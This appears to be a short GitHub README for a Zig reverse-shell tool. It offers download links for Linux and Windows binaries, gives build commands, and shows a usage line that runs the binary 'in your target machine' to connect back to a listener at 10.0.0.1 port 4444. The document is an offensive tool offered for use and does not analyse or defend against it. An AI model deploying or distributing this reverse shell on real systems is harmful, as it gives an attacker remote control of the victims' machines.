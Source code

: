 # Zig Reverse Shell 

## Download

Get the binary for your target platform.

Linux: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.2/revshell-linux-x86_64)  
Windows: [Download](https://github.com/hideckies/zig-revshell/releases/download/0.0.2/revshell-windows-x86_64.exe)

<br />

## Build from Source

Clone the repository and build for your target platform:

```sh
# Linux target
zig build -Dtarget=x86_64-linux

# Windows target
zig build -Dtarget=x86_64-windows
```

After that, the executable is generated under `zig-out/bin` directory.

<br />

## Usage

Execute the binary in your target machine:

```sh
./revshell 10.0.0.1 4444
```

a